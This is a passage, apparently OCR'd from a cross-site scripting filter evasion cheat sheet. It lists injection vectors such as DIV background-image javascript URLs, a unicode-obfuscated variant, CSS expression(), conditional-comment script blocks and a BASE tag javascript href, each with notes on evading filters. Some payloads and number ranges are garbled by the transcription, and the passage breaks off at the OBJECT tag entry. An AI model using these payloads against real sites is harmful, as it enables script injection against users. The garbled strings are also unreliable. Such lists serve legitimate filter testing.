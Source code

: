 #### DIV Background-image

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

#### DIV Background-image with Unicoded XSS Exploit

This has been modified slightly to obfuscate the URL parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

#### DIV Background-image Plus Extra Characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

#### DIV Expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":

`<DIV STYLE="width: expression(alert('XSS'));">`

### Downlevel-Hidden Block

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn't do the job:

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

### BASE Tag

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):

`<BASE HREF="javascript:alert('XSS');//">`

### OBJECT Tag

If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:
